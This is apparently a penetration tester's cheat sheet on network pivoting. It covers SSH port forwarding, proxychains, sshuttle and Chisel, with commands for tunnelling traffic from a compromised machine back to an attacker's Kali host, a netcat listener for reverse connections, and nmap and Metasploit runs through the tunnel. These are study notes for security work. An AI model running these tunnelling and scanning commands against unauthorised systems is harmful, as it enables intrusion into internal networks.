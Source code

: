 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
# For Chisel (below)
sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
   * Built on Go
   * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

# Remote Forwarding (for reverse connections [i.e. reverse_tcp])
## (Commonly on the 1st compromised machine [Pivot Machine])
## The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
./chisel client -v <YOUR_KALI_IP>:8000 3333:127.0.0.1:3333
## After the command above, execute the command below on your Kali machine or something similar (.e. exploit/multi/handler)
nc -lnvp 3333

# Socks proxy  (Commonly on the 1st compromised machine [Pivot Machine])
./chisel client -v <YOUR_KALI_IP>:8000 R:socks
# After the command above, make sure to do follow the "Dynamic port forwarding with proxychains" instructions above


```


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)